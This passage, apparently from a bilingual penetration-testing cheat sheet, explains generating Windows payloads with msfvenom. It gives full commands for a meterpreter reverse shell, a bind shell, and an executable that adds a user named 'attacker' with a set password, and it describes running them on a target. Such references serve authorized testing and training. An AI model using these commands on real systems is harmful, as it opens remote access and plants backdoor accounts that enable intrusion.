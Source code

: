 The `>` operator redirects the output to a file named `shell.exe`.

Once you have generated the payload, you can transfer it to the target Windows machine and execute it to establish a reverse shell connection.
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP Address) LPORT=(Your Port) -f exe > reverse.exe
```
### 绑定 Shell

绑定 Shell 是一种常见的远程访问技术，它允许攻击者在目标系统上建立一个监听端口，以便通过网络连接进行远程访问。攻击者可以使用 Metasploit 的 `msfvenom` 工具生成绑定 Shell 的有效载荷。

以下是使用 `msfvenom` 生成绑定 Shell 的示例命令：

```plaintext
msfvenom -p <payload> LHOST=<attacker IP> LPORT=<attacker port> -f <format> -o <output file>
```

在命令中，你需要替换以下参数：

- `<payload>`：选择适合你的目标系统的有效载荷。
- `<attacker IP>`：攻击者的 IP 地址，用于建立与目标系统的连接。
- `<attacker port>`：攻击者监听的端口号。
- `<format>`：生成有效载荷的格式，如 `exe`、`elf` 或 `raw`。
- `<output file>`：生成的有效载荷文件的输出路径和文件名。

生成的有效载荷文件可以在目标系统上执行，从而建立与攻击者的远程连接。这样，攻击者就可以通过该连接执行各种操作，包括获取敏感信息、执行命令等。

请注意，使用绑定 Shell 技术进行远程访问是非法的，除非你有合法的授权和目的。
```bash
msfvenom -p windows/meterpreter/bind_tcp RHOST=(IP Address) LPORT=(Your Port) -f exe > bind.exe
```
To create a user, you can use the `msfvenom` tool in Metasploit. The `msfvenom` tool allows you to generate various types of payloads, including shellcode, which can be used to create a user on a target system.

Here is an example command to create a user using `msfvenom`:

```plaintext
msfvenom -p windows/adduser USER=username PASS=password -f exe > adduser.exe
```

This command will generate an executable file called `adduser.exe`, which, when executed on a Windows system, will create a new user with the specified username and password.

You can customize the payload according to your needs, such as specifying the target architecture, payload format, and other options. Refer to the `msfvenom` documentation for more information on available options and payload types.

Remember to use this technique responsibly and only on systems that you have proper authorization to access.
```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe > adduser.exe
```
### CMD Shell

CMD Shell（命令提示符）是一种常用的Windows命令行解释器。它允许用户通过输入命令来与操作系统进行交互。在渗透测试中，我们可以使用CMD Shell来执行各种命令和操作，以获取对目标系统的控制。

